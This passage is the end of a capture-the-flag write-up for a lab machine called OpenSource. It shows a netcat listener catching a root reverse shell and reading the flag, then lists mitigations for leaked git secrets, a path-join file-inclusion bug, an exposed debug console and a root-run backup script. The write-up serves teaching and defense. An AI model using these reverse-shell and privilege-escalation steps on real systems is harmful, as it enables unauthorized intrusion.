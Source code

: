 I started a netcat listener, created a new file on the server, and waited for the script to run.

```bash
$ nc -klvnp 4444
Listening on 0.0.0.0 4444
Connection received on 10.129.126.28 38750
bash: cannot set terminal process group (16813): Inappropriate ioctl for device
bash: no job control in this shell

root@opensource:/home/dev01# whoami
whoami
root

root@opensource:/home/dev01# cd /root
cd /root

root@opensource:~# cat root.txt
cat root.txt
REDACTED
```

## Mitigation

This was a very fun box to pwn. There was few opening that allowed me to gain access and escalate my privileges.

The first big issue with the box was committing secrets to a repository. The source code contained the credentials of `dev01`. And the backup repository contained their private key.

There should be safeguards against adding secrets:

* Add common file to .gitignore
* Use tools that scan for secrets in pre-commit hooks
* Look for them in code review

Errors might still happen. If a password is committed, removing it like it was done in the application source code is not enough. The password needs to be changed because it is still part of the history.

The problem with the LFI is a little harder. You need to really know your language to know about issues like the one in `os.path.join`. There are a few things that could be done to help with this issue.

* Rename the file instead of using the name provided by the user
* Uploaded file information should be stored in a database. And only those files should be accessible.
* In this code, making sure the filename does not start with a `/` would have helped

Another problem with the box is that the debug console was available. This should never be activated in production applications. This console allows running any Python code. And access anything that the application has access to. It could be useful to debug issues while developing the application, but there is no reason to deploy it anywhere public.

The last issue was the backup script. I'm not convinced that git is a good tool to run backups. But if they wanted to use it to keep snapshots, the script should have run as the user that is being backed up, not as root. And make sure that only the user could write anywhere in the git repository.
